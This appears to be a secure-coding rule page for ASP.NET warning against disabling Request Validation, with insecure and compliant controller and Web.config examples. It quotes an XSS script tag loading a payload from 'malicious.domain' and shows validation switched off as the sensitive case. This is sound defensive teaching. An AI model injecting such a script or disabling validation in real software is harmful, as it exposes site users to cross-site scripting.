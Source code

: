
ASP.NET 1.1+ comes with a feature called *Request Validation*, preventing the server to accept content containing un-encoded HTML. This feature comes as a first protection layer against Cross-Site Scripting (XSS) attacks and act as a simple Web Application Firewall (WAF) rejecting requests potentially containing malicious content.

While this feature is not a silver bullet to prevent all XSS attacks, it helps to catch basic ones. It will for example prevent `<script
type="text/javascript" src="https://malicious.domain/payload.js">` to reach your Controller.

Note: *Request Validation* feature being only available for ASP.NET, no Security Hotspot is raised on ASP.NET Core applications.

## Ask Yourself Whether

- the developer doesn't know the impact to deactivate the Request Validation feature
- the web application accepts user supplied data
- all user supplied data are not validated


There is a risk if you answered yes to any of those questions.

## Recommended Secure Coding Practices

- Activate the Request Validation feature for all HTTP requests


## Sensitive Code Example

At Controller level:


    [ValidateInput(false)]
    public ActionResult Welcome(string name)
    {
      ...
    }


At application level, configured in the Web.config file:


    <configuration>
       <system.web>
          <pages validateRequest="false" />
          ...
          <httpRuntime requestValidationMode="0.0" />
       </system.web>
    </configuration>


## Compliant Solution

At Controller level:


    [ValidateInput(true)]
    public ActionResult Welcome(string name)
    {
      ...
    }


or


    public ActionResult Welcome(string name)
    {
      ...
    }


At application level, configured in the Web.config file:


    <configuration>
       <system.web>
          <pages validateRequest="true" />
          ...
          <httpRuntime requestValidationMode="4.5" />
       </system.web>
    </configuration>


## See

- [HttpRuntimeSection.RequestValidationMode Property](https://docs.microsoft.com/en-us/dotnet/api/system.web.configuration.httpruntimesection.requestvalidationmode?view=netframework-4.8)
- [OWASP ASP.NET Request Validation](https://owasp.org/www-community/ASP-NET_Request_Validation)
- [OWASP Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) - XSS
  Prevention Cheat Sheet
- [OWASP Top 10 2017 Category A7](https://www.owasp.org/index.php/Top_10-2017_A7-Cross-Site_Scripting_%28XSS%29) - Cross-Site Scripting
  (XSS)
- [MITRE, CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Improper Neutralization of Input During Web Page Generation
  ('Cross-site Scripting')
- [MITRE, CWE-80](https://cwe.mitre.org/data/definitions/80.html) - Improper Neutralization of Script-Related HTML Tags in a Web Page
  (Basic XSS)


